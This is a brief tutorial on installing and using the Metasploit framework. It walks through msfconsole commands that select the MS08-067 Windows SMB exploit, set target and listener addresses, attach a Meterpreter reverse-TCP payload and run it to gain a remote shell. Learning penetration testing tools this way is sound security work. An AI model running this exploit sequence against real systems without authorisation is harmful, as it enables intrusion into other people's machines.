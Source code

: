 # Metasploit
Metasploit is an open-source penetration testing framework that provides tools for discovering, exploiting, and validating vulnerabilities in systems.

## Installing Metasploit
Metasploit can be installed on Linux, Windows, and macOS.=

Linux download command:
  curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfinstall > msfinstall
  chmod 755 msfinstall
  ./msfinstall

# Basic Functionality

  # 1) Start Metasploit
    - msfconsole

  # 2) Search for Exploits
    - search exploit windows

  # 3) Select an Exploit
    - use exploit/windows/smb/ms08_067_netapi # This is just an example of an exploit
    - info exploit/windows/smb/ms08_067_netapi # Gets info about the exploit

  # 4) Show Available Options
    - show options

  # 5) Set Target Parameters
    - set RHOSTS 192.168.1.100
    - set LHOST 192.168.1.50
  RHOSTS: Remote Hosts, the target machine.
  LHOST: Local Host, your machine you are attacking from.
  # 6) Set a Payload
    - set PAYLOAD windows/meterpreter/reverse_tcp

  # 7) Run the Exploit
    - exploit

If successful, you will gain a remote shell to the target machine.
